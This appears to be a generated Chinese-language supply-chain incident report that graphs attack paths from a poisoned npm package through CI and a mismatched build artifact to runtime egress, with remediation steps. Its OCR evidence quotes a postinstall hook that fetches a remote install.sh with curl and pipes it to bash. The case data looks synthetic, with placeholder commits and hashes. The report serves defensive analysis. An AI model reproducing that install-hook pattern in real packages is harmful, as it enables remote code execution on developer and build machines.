



# 知识图谱驱动的真实攻击路径研判报告

生成时间：2026-06-13 17:42:59 UTC

## 风险摘要

- 综合风险评分：100 / 100
- 风险等级：critical
- 打开风险：36 项，其中严重风险 20 项
- 图谱节点：207 个
- 图谱关系：332 条
- 统一资产：176 个
- 证据片段：320 条
- 运行期日志事件：5 条
- 已识别攻击路径：4 条
- 可行动攻击路径：4 条
- 高度可信真实路径：1 条
- 平均路径置信度：73%
- 路径判定分布：cross-modal-corroborated-path=1, likely-real-attack-path=1, provenance-risk-path=2
- 参考模型：GUAC 软件树/证据树可达性、OpenCTI observable 关系与置信度、NetworkX 路径评分、in-toto/SLSA 可信证据链、BloodHound 式入口到目标路径呈现

## 路径判定

本报告不再只列“发现了哪些漏洞”，而是判断这些证据能否串成一次真实攻击路径。

## 攻击路径

### 1. 多模态证据印证供应链投毒到运行期异常路径

一句话结论：OCR/ASR 多模态证据、规则命中、依赖/构建关系和运行期日志相互印证，能串成跨模态高可信供应链攻击路径，综合置信度 90%。

```mermaid
flowchart LR
  N1["VisualEvidence: cicd-error.png"]
  N2["MultimodalFinding: 截图或语音中出现安装脚本外联"]
  N3["RecognizedEntity: package:@acme/payments-helper"]
  N4["DependencyPackage: npm:axios@1.6.8"]
  N5["CIStep: 运行期证据关联"]
  N6["BuildArtifact: 3cx-desktop-app.tar.gz"]
  N7["RuntimeService: checkout-api.prod"]
  N8["LogEvent: 45.83.64.12"]
  N9["AttackStage: 供应链投毒阶段"]
  N1 -->|触发规则| N2
  N2 -->|关联实体| N3
  N3 -->|可进入构建| N4
  N4 -->|可进入构建| N5
  N5 -->|生成产物| N6
  N6 -->|产生日志| N7
  N7 -->|产生日志| N8
  N8 -->|关联| N9
```

- 路径判定：cross-modal-corroborated-path
- 综合置信度：90%
- 严重级别：critical
- 路径评分：100 / 100
- 影响资产：cicd-error.png -> package:@acme/payments-helper -> npm:axios@1.6.8 -> 运行期证据关联 -> 3cx-desktop-app.tar.gz -> checkout-api.prod -> 45.83.64.12
- 修复优先级：P0
- 攻击映射：software/evidence tree correlation, observable confidence and relationship graph, path scoring and source diversity
- 参考模型：GUAC, OpenCTI, NetworkX, Sigma, Wazuh

路径步骤：
- cicd-error.png --触发规则--> 截图或语音中出现安装脚本外联（Sigma/Wazuh，置信度 90%）：Sigma-style multimodal rule matched recognized text from this evidence source.
- 截图或语音中出现安装脚本外联 --影响资产--> package:@acme/payments-helper（FINDING_AFFECTS，置信度 86%）：Finding references the normalized asset by asset_id.
- package:@acme/payments-helper --关联--> npm:axios@1.6.8（evidence，置信度 50%）：Regex/Keyword Entity Extraction
- npm:axios@1.6.8 --可进入构建--> 运行期证据关联（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 运行期证据关联 --生成产物--> 3cx-desktop-app.tar.gz（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- 3cx-desktop-app.tar.gz --deployed as--> checkout-api.prod（Runtime deployment，置信度 82%）：Workspace runtime metadata links the verified artifact to the deployed service.
- checkout-api.prod --产生日志--> 45.83.64.12（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- 45.83.64.12 --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm:axios@1.6.8；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=运行期证据关联；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=3cx-desktop-app.tar.gz；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=45.83.64.12；状态=observed

证据缺口：
- 当前路径未发现明显证据缺口。

关键封堵点：
- npm:axios@1.6.8：固定私有源、锁定版本并清理缓存包。
- 运行期证据关联：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 3cx-desktop-app.tar.gz：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。
- 45.83.64.12：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- Artifact provenance attestation：3cx-desktop-app.tar.gz sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191; repo=https://github.c...
- artifact_digest_matches_subject：fail: artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:...
- artifact_hash_baseline：skipped: No historical hash baseline configured.
- attestation_max_age：pass: attestation age is 55.71 hours
- builder_trusted：pass: https://github.com/actions/runner/self-hosted

### 2. 证据可串成供应链投毒到运行期异常的攻击路径

一句话结论：能串成一次高度可信的真实攻击路径：入口、构建、产物、运行期行为连续可达，综合置信度 85%。

- 路径判定：likely-real-attack-path
- 综合置信度：85%
- 严重级别：critical
- 路径评分：100 / 100
- 影响资产：cases/3cx-supply-chain/sample-repo/.github/workflows/desktop-release.yml -> npm:axios@1.6.8 -> 运行期证据关联 -> 3cx-desktop-app.tar.gz -> checkout-api.prod -> 45.83.64.12
- 修复优先级：P0
- 攻击映射：T1195
- 参考模型：GUAC, SLSA, in-toto, BloodHound CE, MITRE ATT&CK STIX

路径步骤：
- cases/3cx-supply-chain/sample-repo/.github/workflows/desktop-release.yml --声明依赖入口--> npm:axios@1.6.8（GUAC，置信度 62%）：If the package is malicious or vulnerable, it can be selected during dependency resolution.
- npm:axios@1.6.8 --可进入构建--> 运行期证据关联（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 运行期证据关联 --生成产物--> 3cx-desktop-app.tar.gz（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- 3cx-desktop-app.tar.gz --deployed as--> checkout-api.prod（Runtime deployment，置信度 82%）：Workspace runtime metadata links the verified artifact to the deployed service.
- checkout-api.prod --产生日志--> 45.83.64.12（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- 45.83.64.12 --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm:axios@1.6.8；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=运行期证据关联；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=3cx-desktop-app.tar.gz；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=45.83.64.12；状态=observed

证据缺口：
- 当前路径未发现明显证据缺口。

关键封堵点：
- npm:axios@1.6.8：固定私有源、锁定版本并清理缓存包。
- 运行期证据关联：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 3cx-desktop-app.tar.gz：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。
- 45.83.64.12：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- Artifact provenance attestation：3cx-desktop-app.tar.gz sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191; repo=https://github.c...
- artifact_digest_matches_subject：fail: artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:...
- artifact_hash_baseline：skipped: No historical hash baseline configured.
- attestation_max_age：pass: attestation age is 55.71 hours
- builder_trusted：pass: https://github.com/actions/runner/self-hosted

### 3. 证据可串成构建链路完整性受损路径

一句话结论：能串成构建完整性风险路径，但还需要 provenance/attestation 才能证明产物确被篡改，综合置信度 68%。

- 路径判定：provenance-risk-path
- 综合置信度：68%
- 严重级别：high
- 路径评分：95 / 100
- 影响资产：.github/workflows/desktop-release.yml -> 3cx-desktop-app.tar.gz -> checkout-api.prod
- 修复优先级：P1
- 攻击映射：Build provenance and integrity
- 参考模型：SLSA, in-toto, GUAC, BloodHound CE

路径步骤：
- .github/workflows/desktop-release.yml --关联--> 3cx-desktop-app.tar.gz（evidence，置信度 50%）：WorkspaceSummary
- 3cx-desktop-app.tar.gz --deployed as--> checkout-api.prod（Runtime deployment，置信度 82%）：Workspace runtime metadata links the verified artifact to the deployed service.
- checkout-api.prod --关联--> 构建链路风险阶段（evidence，置信度 50%）：Runtime

可信证据链：
- in-toto：构建步骤将 material 转换为 product；主体=.github/workflows/desktop-release.yml；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=3cx-desktop-app.tar.gz；状态=gap

证据缺口：
- 路径关系可达，但部分边是启发式关联；建议补充时间线、产物哈希或来源 IP 证据。

关键封堵点：
- .github/workflows/desktop-release.yml：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 3cx-desktop-app.tar.gz：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。

证据摘要：
- Artifact provenance attestation：3cx-desktop-app.tar.gz sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191; repo=https://github.c...
- artifact_digest_matches_subject：fail: artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:...
- artifact_hash_baseline：skipped: No historical hash baseline configured.
- attestation_max_age：pass: attestation age is 55.71 hours
- builder_trusted：pass: https://github.com/actions/runner/self-hosted

### 4. 产物可信链路验证路径

一句话结论：产物 3cx-desktop-app.tar.gz 的可信链存在阻断项；需要复核 commit 2222222222222222222222222222222222222222 -> workflow -> https://github.com/actions/runner/self-hosted -> artifact -> attestation 的 digest、签名和策略匹配结果。

- 路径判定：provenance-risk-path
- 综合置信度：50%
- 严重级别：critical
- 路径评分：16 / 100
- 影响资产：commit 2222222222222222222222222222222222222222 -> https://github.com/actions/runner/self-hosted -> 3cx-desktop-app.tar.gz -> 3cx-desktop-app.tar.gz
- 修复优先级：P0
- 攻击映射：Verify artifact provenance
- 参考模型：SLSA, in-toto, Sigstore Cosign, GitHub Artifact Attestations, GUAC

路径步骤：
- commit 2222222222222222222222222222222222222222 --关联--> https://github.com/actions/runner/self-hosted（evidence，置信度 50%）：SLSA/in-toto
- https://github.com/actions/runner/self-hosted --produces artifact--> 3cx-desktop-app.tar.gz（SLSA provenance，置信度 88%）：Trusted builder identity is the execution root that produced the artifact subject digest.
- 3cx-desktop-app.tar.gz --attested by--> 3cx-desktop-app.tar.gz（SLSA/in-toto，置信度 92%）：Artifact trust scan parsed a provenance attestation for this artifact digest.
- 3cx-desktop-app.tar.gz --blocks proof--> 产物 digest 与 attestation subject 不一致或缺失（SLSA/in-toto policy，置信度 90%）：Artifact trust finding blocks or weakens the provenance proof chain.
- 产物 digest 与 attestation subject 不一致或缺失 --关联--> 构建链路风险阶段（evidence，置信度 50%）：SLSA/in-toto

可信证据链：
- SLSA materials：source repository and commit/ref are claimed by provenance；主体=commit 2222222222222222222222222222222222222222；状态=observed
- -：-；主体=-；状态=-
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=3cx-desktop-app.tar.gz；状态=gap
- -：-；主体=-；状态=-

证据缺口：
- 当前路径未发现明显证据缺口。

关键封堵点：
- 3cx-desktop-app.tar.gz：重新构建并校验产物哈希/provenance。

证据摘要：
- Artifact provenance attestation：3cx-desktop-app.tar.gz sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191; repo=https://github.c...
- artifact_digest_matches_subject：fail: artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:...
- artifact_hash_baseline：skipped: No historical hash baseline configured.
- attestation_max_age：pass: attestation age is 55.71 hours
- builder_trusted：pass: https://github.com/actions/runner/self-hosted

## 关联高危问题

| 编号 | 等级 | 评分 | 风险 | 影响资产 | 来源 |
| --- | --- | ---: | --- | --- | --- |
| finding-node:4ff9fbf702545b36 | critical | 100 | axios has exploitable VEX context | axios@1.6.8 | CycloneDX |
| finding-node:81203073eb49d600 | critical | 100 | electron vulnerability needs reachability triage | electron@25.9.8 | CycloneDX |
| finding-node:b2a34a1ebcecebd2 | critical | 100 | pip vulnerability needs reachability triage | pip@24.0.0 | CycloneDX |
| finding-node:48eec593c42a7bcf | critical | 100 | setuptools vulnerability needs reachability triage | setuptools@65.5.0 | CycloneDX |
| finding-node:13a9099d487713d0 | critical | 100 | starlette vulnerability needs reachability triage | starlette@1.0.0 | CycloneDX |
| finding-node:76c2fa9f5c13ac4f | critical | 98 | 产物 digest 与 attestation subject 不一致或缺失 | artifact_trust | SLSA/in-toto |
| finding-node:e33b2b17a3bb2123 | critical | 97 | 依赖与 CI/CD 风险后出现运行期外联/敏感接口访问 | 证据链 | WorkspaceSummary |
| finding-node:f13369fcf0078521 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:97aaa1dda7db9b21 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:fae7ec87f56d1cf1 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:88ab8ea49348d9fb | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:a1f8b27b61a1bf27 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |

## 证据链

| 序号 | 时间 | 证据类型 | 关联资产 | 证据摘要 | 来源模型 |
| ---: | --- | --- | --- | --- | --- |
| 1 | 2026-06-13 17:42 | artifact-provenance | 3cx-desktop-app.tar.gz | 3cx-desktop-app.tar.gz sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191; repo=https://github.com/3cx/desktop-app; commit=222222222222222222222222222222222... | SLSA/in-toto |
| 2 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | fail: artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:000000000000000000000000000000000000000000000000000000000000... | SLSA/in-toto |
| 3 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | skipped: No historical hash baseline configured. | SLSA/in-toto |
| 4 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | pass: attestation age is 55.71 hours | SLSA/in-toto |
| 5 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | pass: https://github.com/actions/runner/self-hosted | SLSA/in-toto |
| 6 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | fail: provenance commit 2222222222222222222222222222222222222222 does not match expected 8f42c19 | SLSA/in-toto |
| 7 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | pass: https://slsa.dev/provenance/v1 | SLSA/in-toto |
| 8 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | fail: self-hosted runner is not allowed by policy: self-hosted | SLSA/in-toto |
| 9 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | warn: Error: HTTP 404: Not Found (https://api.github.com/repos/3cx/desktop-app/attestations/sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191?per_page=30&p... | SLSA/in-toto |
| 10 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | pass: https://github.com/3cx/desktop-app | SLSA/in-toto |
| 11 | 2026-06-13 17:42 | artifact-trust-check | 3cx-desktop-app.tar.gz | pass: .github/workflows/desktop-release.yml | SLSA/in-toto |
| 12 | 2026-06-13 17:42 | artifact-trust-finding | 3cx-desktop-app.tar.gz | self-hosted runner is not allowed by policy: self-hosted | SLSA/in-toto |
| 13 | 2026-06-13 17:42 | artifact-trust-finding | 3cx-desktop-app.tar.gz | artifact sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191 != attestation subject sha256:0000000000000000000000000000000000000000000000000000000000000000 | SLSA/in-toto |
| 14 | 2026-06-13 17:42 | artifact-trust-finding | 3cx-desktop-app.tar.gz | provenance commit 2222222222222222222222222222222222222222 does not match expected 8f42c19 | SLSA/in-toto |
| 15 | 2026-06-13 17:42 | artifact-trust-finding | 3cx-desktop-app.tar.gz | Error: HTTP 404: Not Found (https://api.github.com/repos/3cx/desktop-app/attestations/sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191?per_page=30&predica... | SLSA/in-toto |
| 16 | 2026-06-13 17:41 | static-analysis-result | cases/3cx-supply-chain/sample-repo/.github/workflows/desktop-release.yml | permissions: write-all | SARIF |
| 17 | 2026-06-13 17:42 | sbom-component-risk | npm:axios@1.6.8 | OSV: GHSA-35jp-ww65-95wh; OSV: GHSA-3g43-6gmg-66jw; OSV: GHSA-3p68-rc4w-qgx5; OSV: GHSA-3w6x-2g7m-8v23; OSV: GHSA-43fc-jf86-j433; OSV: GHSA-445q-vr5w-6q77; OSV: GHSA-4hjh-wcwx-x... | CycloneDX |
| 18 | 2026-06-11 11:30:02 | runtime-log-finding | 45.83.64.12 | {"time":"2026-06-11T11:30:02Z","source":"app","host":"customer-pc-01","process":"3cx-desktop-app","event":"...pp beacon egress destination 45.83.64.12 for cdn-update.example.inv... | NormalizedLogEvent |

## 多模态证据融合

- 多模态证据：18 条
- 安全实体：118 个
- 规则命中：22 条
- 多模态风险：critical / 96
- 参考模型：GUAC 负责软件供应链可达关系，OpenCTI 负责 observable/置信度/first seen 语义，NetworkX 负责路径评分和多源证据连通性。

| Evidence ID | 类型 | 风险 | 关联实体 | 命中规则 | 识别文本摘要 |
| --- | --- | --- | --- | --- | --- |
| MME-20260611120040129581-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260605112212515224-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260605112203250782-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603143717219602-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603080139438792-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260603080102092971-B4A4919E | image | high / 84 | 凌晨三点, checkout-api, 异常外联, 外联, 185.199.108.153, admin/export | multimodal-sensitive-interface-anomaly | SupplyGuard Incident Screenshot 高风险告警 时间 凌晨三点 服务 checkout-api 事件 出现异常外联 目标 185.199.108.153/install.sh 接口 admin/export... |
| MME-20260603080052880859-DDC20BBF | image | critical / 96 | 09:42:10, @acme/payments-helper@9.9.2, @acme/payments-helper, postinstall, curl, bash, 185.199.108.153 | multimodal-postinstall-egress | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen... |
| MME-20260603080050377411-4A1F3B72 | audio | low / 0 | - | - | 凌晨3. 赤烤雷批爱出现一场外连 atmean export 接口访问两声高 请隔离购劲产务 并负合 provenance |

## 修复建议

- **P0 · 多模态证据印证供应链投毒到运行期异常路径**：优先封堵 OCR/ASR 中识别到的依赖包、外联 IP 和敏感接口，并把同时间窗的 CI/CD、SBOM、运行日志作为取证材料保留。
- **P0 · 证据可串成供应链投毒到运行期异常的攻击路径**：隔离高危依赖，使用干净 runner 重新构建，校验产物哈希，并排查运行期外联。
- **P1 · 证据可串成构建链路完整性受损路径**：收敛 workflow 权限，第三方 Action 固定到 commit SHA，并为产物增加 provenance/attestation。
- **P0 · 产物可信链路验证路径**：将该产物可信验证结果作为发布门禁；digest、签名、builder、workflow 或来源任一失败时阻断发布。

## 附录

### SBOM / Dependency-Track 风险摘要

- SBOM 组件数量：59
- 依赖风险数量：5
- 最高依赖风险：100 / 100
- VEX statement：58
- VEX affected / under investigation：17
- VEX not affected / fixed：41
- 代码可达依赖：2
- 运行期日志命中：8

### SARIF / DefectDojo 风险摘要

- SARIF 结果数量：4
- 代码风险数量：1
- CI/CD 风险数量：3

### 产物可信验证摘要

- 产物：3cx-desktop-app.tar.gz
- SHA256：sha256:458ad741728d66dadb133272f2dfb8e73215be7b6a2d8f9e875519e3fbe0a191
- 可信评分：16 / 100
- 检查项数量：10
- 产物可信风险：4

### 日志证据摘要

- 日志风险数量：2
- 图谱证据数量：320

### 开源参考

- GUAC: https://docs.guac.sh/guac/
- GUAC Ontology: https://docs.guac.sh/guac/guac-ontology/
- MITRE ATT&CK STIX Data: https://github.com/mitre-attack/attack-stix-data
- SLSA: https://slsa.dev/spec/v1.2/provenance
- in-toto: https://github.com/in-toto/in-toto
- BloodHound CE: https://specterops.io/bloodhound-community-edition/
- NetworkX: https://networkx.org/
- React Flow: https://reactflow.dev/
- CycloneDX: https://cyclonedx.org/specification/overview/
- SARIF: https://www.oasis-open.org/standard/sarif-v2-1-0/
- OWASP Dependency-Track: https://dependencytrack.org/
- DefectDojo: https://docs.defectdojo.com/
- FFmpeg: https://www.ffmpeg.org/index.html
- OpenCV: https://opencv.org/about/

